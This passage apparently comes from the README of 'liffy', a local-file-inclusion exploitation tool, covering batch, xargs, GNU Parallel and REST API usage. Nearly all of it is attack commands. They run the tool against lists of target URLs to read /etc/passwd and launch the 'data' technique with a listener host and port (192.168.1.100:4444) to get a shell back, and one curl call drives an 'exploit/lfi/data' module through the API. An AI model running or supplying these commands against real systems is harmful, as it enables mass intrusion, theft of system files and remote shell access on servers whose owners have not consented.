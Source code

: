 
## 🚀 **Advanced Usage**

### **Batch Processing**

```bash
# Process multiple URLs
cat urls.txt | liffy-fast filter --batch --file "/etc/passwd"

# Parallel processing
cat urls.txt | liffy-fast data --batch --parallel --lhost 192.168.1.100 --lport 4444

# JSON output
cat urls.txt | liffy-fast filter --batch --json --file "/etc/passwd" > results.json
```

### **Xargs Integration**

```bash
# Basic xargs usage
cat urls.txt | xargs -I {} liffy-fast filter --url "{}" --file "/etc/passwd"

# Parallel xargs
cat urls.txt | xargs -P 4 -I {} liffy-fast data --url "{}" --lhost 192.168.1.100 --lport 4444
```

### **GNU Parallel Integration**

```bash
# Basic parallel usage
cat urls.txt | parallel -j 4 'liffy-fast data --url {} --lhost 192.168.1.100 --lport 4444'

# Advanced parallel with progress
cat urls.txt | parallel --progress -j 4 'liffy-fast filter --url {} --file /etc/passwd'
```

### **API Mode**

```bash
# Start API server
liffy --module auxiliary/api/rest_api

# Use API endpoints
curl -X POST http://127.0.0.1:8080/api/exploit \
  -H "Content-Type: application/json" \
  -d '{"module": "exploit/lfi/data", "options": {"URL": "http://target/file.php?page=", "LHOST": "192.168.1.100", "LPORT": 4444}}'
```

---

## 🔍 **Examples**
